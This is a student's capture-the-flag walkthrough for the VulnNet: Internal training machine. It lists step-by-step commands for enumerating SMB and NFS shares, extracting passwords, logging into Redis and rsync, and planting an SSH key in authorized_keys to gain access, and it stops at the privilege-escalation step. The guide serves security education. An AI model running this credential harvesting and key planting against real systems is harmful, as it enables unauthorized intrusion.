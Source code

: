 ```yaml
---
layout: page
title: VulnNet: Internal
permalink: /CSCI24/VulnNetInternal/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>


Task 1
---

Lets start with a nmap scan shall we?

```nmap -sC -sV 10.10.106.247```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.png">

we have quite a few posibilities so lets see if metaspolit sees anything

Since we see some SMB shares lets try for that

lets add the IP to our host file with

```sudo nano /etc/hosts```

I named it VulnInternal

```smbmap -H VulnInternal```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.5.png">

We see a share named "shares" lets look into it shall we?

```smbmap -H VulnInternal -u root -R```

Now we neet to "get" the file suspiciously named "services.txt"

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.6.png">

```smbget -R smb://VulnInternal/shares/temp/services.txt```

Lets cat that file

```cat services.txt```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.7.png">

What is the services flag? (services.txt)

***THM{0a09d51e488f5fa105d8d866a497440a}***
---

Port 2049 looks different

a quick search [Here](https://blog.christophetd.fr/write-up-vulnix) shows that we can look into NFS shares

```showmount -e VulnInternal```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.7.png">

We can copy this into a new directory to look into the results

```mkdir VulnInternal```

```sudo mount -t nfs VulnInternal:/opt/conf VulnInternal```
```cd VulnInternal```
lets see if we can find anything with grep

```grep -R pass```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q2.png">

After some googling and finding what redis was I found that we need a tool to try and work with it

```sudo apt install redis-tools```

Lets try to get in with that password we found

```redis-cli -h VulnInternal -a B65Hx562F@ggAZ@F```

```info```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q2.5.png">

Now at the bottom we see a key space that we can look into further

```keys *```

Key #3 is "internal flag"

```get "internal flag"```


What is the internal flag? ("internal flag")

***THM{ff8e518addbbddb74531a724236a8221}***


```type authlist```

I learned from a write up about lrange

```lrange authlist 1 99999```

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

is written 3 times and is most likely base64

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q3.png">

looks like we are going to use rysnc as well (password: Hcg3HP67@TW@Bc72v)

```rsync rsync://rsync-connect@VulnInternal/```

There is a folder named files lets look into it

```rsync rsync://rsync-connect@VulnInternal/files```

```rsync rsync://rsync-connect@VulnInternal/files/sys-internal/```

lets look into the txt file

it didn't want to save itn oa nromal folder so I moved it to the tmp

```cd /tmp```

```sudo rsync rsync://rsync-connect@VulnInternal/files/sys-internal/user.txt user.txt -v```

```sudo cat user.txt```

What is the user flag? (user.txt)

***THM{da7c20696831f253e0afaca8b83c07ab}***


What is the root flag? (root.txt)

A walkthrough taught me that rysnc can pull and push files such as a new SSH key!

ssh-keygen (to create a key in tmp named VulnKey)

```rsync id_rsa.pub rsync://rsync-connect@VulnInternal/files/sys-internal/.ssh/authorized_keys```

Lets make sure our key was put in the folder

```rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/```

```ssh sys-internal@VulnInternal -i id_rsa```

after rooting aroudn there is a fodler named TeamCity

the reame shows us how to run a file


***
